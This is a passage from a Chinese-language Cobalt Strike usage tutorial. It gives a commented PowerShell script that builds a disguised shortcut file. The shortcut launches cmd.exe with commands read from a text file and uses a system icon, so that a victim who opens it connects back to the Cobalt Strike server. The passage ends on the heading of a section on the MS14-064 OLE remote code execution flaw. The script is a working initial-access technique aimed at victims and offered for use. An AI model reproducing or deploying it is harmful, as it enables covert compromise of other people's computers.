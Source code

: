 ![image-20221008094547272](CobaltStrike的使用教程/image-20221008094547272.png)	



创建LNK.ps1文件, 将如下代码写入进去, 然后右键powershell执行后, 会在文件当前目录下生成test.lnk文件

若受害机运行了test.lnk文件, 则在CS上线

> 注意:LNK.ps1和test.txt要在同一目录下

```powershell
# 从 "test.txt" 文件中获取内容，并将该内容存储在变量 $file 中
$file = Get-Content "test.txt"

# 创建一个 COM 对象，该对象对应于 Windows Script Host Shell，可以用来执行各种系统任务，例如创建快捷方式
$WshShell = New-Object -comObject WScript.Shell

# 使用 WSH Shell 的 `CreateShortcut` 方法创建一个快捷方式，该快捷方式的名称是 "test.lnk"
$Shortcut = $WshShell.CreateShortcut("test.lnk")

# 设置快捷方式的目标路径，也就是快捷方式所指向的程序。这里设置的是 cmd.exe，它是 Windows 的命令提示符
$Shortcut.TargetPath = "%SystemRoot%\system32\cmd.exe"

# 设置快捷方式的图标位置。这里设置的是 Shell32.dll 文件中的第 21 个图标
$Shortcut.IconLocation = "%SystemRoot%\System32\Shell32.dll,21"

# 设置当启动目标程序时要传递给它的命令行参数。这里设置的是 "test.txt" 文件的内容
$Shortcut.Arguments = ''+ $file

# 保存对快捷方式的所有更改，创建了实际的 ".lnk" 文件
$Shortcut.Save()
```

​		

## OLE远程代码执行(MS14-064)

### 简介

Microsoft Windows OLE 远程代码执行漏洞，影响Win95+IE3 - Win10+IE11全版本

